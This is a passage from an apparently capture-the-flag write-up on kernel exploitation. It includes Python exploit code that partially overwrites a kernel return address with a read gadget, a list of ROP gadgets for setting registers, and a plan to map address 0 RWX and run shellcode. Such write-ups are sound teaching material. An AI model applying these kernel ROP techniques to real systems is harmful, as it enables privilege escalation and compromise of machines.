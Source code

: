```python
read_gadget = 0xffffffff8100008c # mov rcx, rsi; mov dx, 0x38f; rep insb; ret

# Prepare our initial kernel ropchain.                                          
# For this one, you can't have any null bytes as the bof stops on a null byte.  
# We know that when sys_open returns, RSI will be set to 0x38f, and RDI will be 
# set to the filename buffer on the kernel stack. This gadget will read RSI        
# bytes into the address in RDI (with no restrictions as it uses `read`), which 
# subsequently lets us re-trigger the kernel bof and ROP at will                
krop1 = flat([                                                                  
    b"\x82"*0x48, # Pad to kernel stack ret addr                                
    b"\x8c", # Partial overwrite to read gadget (see gadget above)              
])

p.send(krop1) # Partial overwrite kernel ret addr to read gadget
```

Once this is done, the emulator will be waiting for our input again. This new input will be the second kernel ROP chain.

## Actually ROP in the kernel

Now that we can ROP in the kernel, my plan was to use the `int 0x70 ; ret` gadget in the kernel to get address 0 mapped with RWX perms. Then, I want to use the read gadget from above to read shellcode into address 0, and then jump to the shellcode. 

To do all of that though, we need to control RAX, RDI, RSI, and RDX. Luckily for us, the userspace memory is mapped into the kernel, so we can use userspace gadgets. Note that we can't use SROP because it doesn't make sense to do a system call while in the kernel.

There were two sets of gadgets that could be chained together to control all of the registers. These were as follows:

```
0x0000000000400121 : pop rax ; ret
0x00000000004009d3 : mov rdi, rax ; jmp 0x400ca0 -> [not important] ; mov rax, rdi ; ret

0x0000000000400af3 : pop rbx ; pop rbp ; pop r12 ; pop r13 ; ret
0x00000000004008bd : mov rdx, r12 ; mov rsi, rbx ; call r13
```

First, there a few things to note: 

1. `ROPgadget` seems to have some kind of a bug here, as it stated that the `jmp` instruction in the gadget at `0x4009d3` jumped to `0x400ca3`. In reality, it jumps to `0x400ca0`, and I modified the gadget manually to say that above. This confused me initially, but luckily I went to check the gadget in GDB to see where it was actually jumping to, since it made no sense for actual code to jump to the middle of an instruction.

2. I added in the instructions after the `jmp` for the `0x4009d3` gadget, just so its easier to see whats going on.

The first two gadgets can be chained together to control the contents of RDI. The second two gadgets can be chained together to control RDX and RSI respectively. And of course, the first gadget lets us control RAX.
